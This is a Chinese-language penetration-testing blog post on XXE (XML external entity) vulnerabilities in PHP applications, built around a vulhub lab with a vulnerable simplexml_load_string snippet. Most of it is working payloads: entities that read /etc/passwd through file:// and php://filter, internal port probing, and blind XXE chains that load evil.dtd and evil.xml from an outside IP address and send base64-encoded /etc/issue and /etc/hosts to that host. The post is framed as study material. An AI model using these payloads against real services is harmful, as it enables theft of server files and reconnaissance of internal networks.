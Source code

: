 ```yaml
---
draft: false
date: 2017-12-09 23:02:22
title: XXE 漏洞
description: XXE 漏洞是针对使用 XML 交互的 Web 应用程序的攻击方法
categories:
  - Pentest
tags:
  - xml
---
```


### 0x00 XXE
XML文件作为配置文件(spring、Struts2等)、文档结构说明文件(PDF、RSS等)、图片格式文件(SVG header)应用比较广泛

外部引用时可能会出现XXE漏洞，XXE漏洞是针对使用XML交互的Web应用程序的攻击方法

### 0x01 示例代码
实验环境：[https://github.com/vulhub/vulhub/tree/master/php/php_xxe](https://github.com/vulhub/vulhub/tree/master/php/php_xxe?_blank)  
simplexml_load_string.php
```
<?php
$data = file_get_contents('php://input');
$xml = simplexml_load_string($data);
echo $xml->name;
```

### 0x02 判断是否有xxe漏洞
![95](/img/post/20180906-110942.png)

### 0x03 读取文件
* 外部引用读取passwd

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
  <!ELEMENT name ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <name>&xxe;</name>
</root>
```

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
  <!ELEMENT name ANY >
  <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
]>
<root>
  <name>&xxe;</name>
</root>
```

* 外部引用dtd文件读取passwd

evil.dtd中的内容为：```<!ENTITY b SYSTEM "file:///etc/passwd">```
```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
  <!ELEMENT name ANY >
  <!ENTITY % xxe SYSTEM "http://114.115.183.86/evil.dtd">
  %xxe;
]>
<root>
  <name>&b;</name>
</root>
```

### 0x04 端口探测
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
  <!ENTITY http SYSTEM 'http://10.11.11.20:3306/'>
]>
<root>
  <name>&http;</name>
</root>
```

### 0x05 Blind-XXE
* 方法一：

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
    <!ENTITY % remote SYSTEM "http://114.115.183.86/wyb/evil.dtd">
    %remote;
]>
```
evil.dtd内容：
```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/issue">
<!ENTITY % all "<!ENTITY &#37; send SYSTEM 'http://114.115.183.86/?%file;'>">
%all;
%send;
```

* 方法二：

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
    <!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/hosts">
    <!ENTITY % remote SYSTEM "http://114.115.183.86/wyb/evil.xml">
    %remote;   <!--引用remote来将外部文件evil.xml引入到解释上下文中-->
    %xxe;   <!--执行%xxe，这时会检测到send实体，然后在root节点中引用send，就可以成功实现数据转发-->
]>
<root>&send;</root>
```
evil.xml内容：
```
<!ENTITY % xxe "<!ENTITY send SYSTEM 'http://114.115.183.86/a.php?content=%file;'>">
```


<br>
#### Reference(侵删)：
* [http://blog.csdn.net/u011721501/article/details/43775691](http://blog.csdn.net/u011721501/article/details/43775691?_blank)
* [https://security.tencent.com/index.php/blog/msg/69](https://security.tencent.com/index.php/blog/msg/69?_blank)
